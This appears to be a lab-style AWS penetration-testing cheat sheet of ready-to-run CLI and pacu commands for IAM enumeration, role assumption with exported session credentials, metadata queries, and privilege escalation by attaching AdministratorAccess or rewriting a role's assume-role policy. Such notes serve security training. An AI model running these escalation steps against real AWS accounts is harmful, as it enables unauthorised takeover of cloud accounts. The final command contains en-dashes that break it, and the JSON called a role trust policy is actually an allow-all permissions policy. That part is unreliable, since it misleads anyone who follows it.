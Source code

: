 ## Create IAM role
`aws iam create-role --role-name a4 --assume-role-policy-document file://assume-role-doc.json`  

## Enumerate users (pacu)
`run iam__enum_users --role-name a4 --account-id <account ID from $aws__enum_account> --word-list /home/kali/names.txt`  

## Assume Role
`aws sts assume-role --role-arn arn:aws:iam::276384657722:role/ad-LoggingRole --role-session-name ad_logging`  
### Export secrets
```
export AWS_ACCESS_KEY_ID=<>
export AWS_SECRET_ACCESS_KEY=<>
export AWS_SESSION_TOKEN=<>
//unset
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
```  
### Confirm assumed role  
`aws sts get-caller-identity`  
### Retrieve attached policies for assumed role  
`aws iam list-attached-role-policies --role-name ad-LoggingRole`  
### From here we can list buckets and their objects with readonlyaccess  

## List policies attached to user  
`aws iam list-attached-user-policies --user-name <user>`  
### Check policy details for the a policy  
`aws iam get-policy --policy-arn arn:aws:iam::aws:policy/<policy>`  
### View policy details for versions  
`aws iam get-policy-version --policy-arn arn:aws:iam::225489834925:policy/Service --version-id v1` 

## List inline policies attached to users  
`aws iam list-user-policies --user-name student`  
### Enum inline policies
`aws iam get-user-policy --user-name student --policy-name <inline policy>`  
`aws iam list-role-policies --role-name Adder`  
`aws iam get-role-policy --role-name Adder --policy-name AddUser`  

## Get Region  
`curl http://169.254.169.254/latest/dynamic/instance-identity/document`  
`aws configure get region`  
`curl -s http://169.254.169.254/latest/meta-data/placement/availability-zone | sed 's/\(.*\)[a-z]/\1/'`  
`ec2-metadata --availability-zone`  

### List Lambda Functions  
 
`aws lambda list-functions --region us-east-1`  

## Abuse `iam:AttachUserPolicy` being present  
`aws iam list-policies | grep 'AdministratorAccess'`  
`aws iam attach-user-policy --user-name student --policy-arn arn:aws:iam::aws:policy/AdministratorAccess`  
`aws iam list-attached-user-policies --user-name student`  
`aws iam attach-group-policy --group-name Printers --policy-arn arn:aws:iam::aws:policy/AdministratorAccess`  
`aws iam list-attached-group-policies --group-name Printers`  

## Abuse `iam:AddUserToGroup` being present
`aws iam add-user-to-group --group-name Printers --user-name student`  
`aws iam list-groups-for-user --user-name student`  

## Abuse `iam:UpdateAssumeRolePolicy` and `sts:AssumeRole permissions` (change the assume role policy document of any existing role to allow them to assume that role)  

`aws iam update-assume-role-policy –role-name role_i_can_assume –policy-document file://path/to/assume/role/policy.json`  

Where the policy looks like the following, which gives the user permission to assume the role:
```
{
"Version": "2012-10-17",
"Statement": [
    {
  "Effect":"Allow",
  "Action":"*",
  "Resource":"*"
    }
  ]
}
```
